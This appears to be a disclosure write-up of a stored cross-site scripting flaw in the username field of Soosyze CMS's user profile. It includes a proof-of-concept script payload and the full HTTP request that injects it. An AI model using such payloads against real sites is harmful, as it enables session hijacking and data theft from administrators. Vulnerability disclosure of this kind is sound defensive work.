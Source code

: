 # Soosyze CMS / Stored Cross Site Scripting


## Affected Component
> /user/X

## Impact
The web application is vulnerable to stored cross-site scripting (XSS) attacks within the view user functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "username" parameter, which is used to view the username. When admin user views the username, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

## Proof of Concept
To exploit the stored XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "username" parameter while editing the profile. For example, submitting the payload Jimmy <script>alert("XSS-JIMMY")</script> triggers an alert box when viewed. This demonstrates the successful execution of arbitrary scripts within the application.


**HTTP Request Example**
``` http request
POST /user/2 HTTP/1.1
Host:[REDACTED]
Content-Length: 1506
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjSBWfEdOV3GhGP1t
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
X-HTTP-Method-Override: put
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=[REDACTED]
Connection: close
------WebKitFormBoundaryjSBWfEdOV3GhGP1t
Content-Disposition: form-data; name="__method"
put
------WebKitFormBoundaryjSBWfEdOV3GhGP1t
Content-Disposition: form-data; name="username"
Jimmy <script>alert("XSS-JIMMY")</script>
------WebKitFormBoundaryjSBWfEdOV3GhGP1t
------WebKitFormBoundaryjSBWfEdOV3GhGP1t
Content-Disposition: form-data; name="submit"
Save
------WebKitFormBoundaryjSBWfEdOV3GhGP1t--
```
## Proof of Concept (POC):


## Screenshot
![image](https://github.com/dumiAron/CVE/assets/110510895/3d1ef10a-47dc-41e7-809e-07ce3ce1adc4)


## **Credits**
> [Aaron Wy](https://github.com/WyAaron)
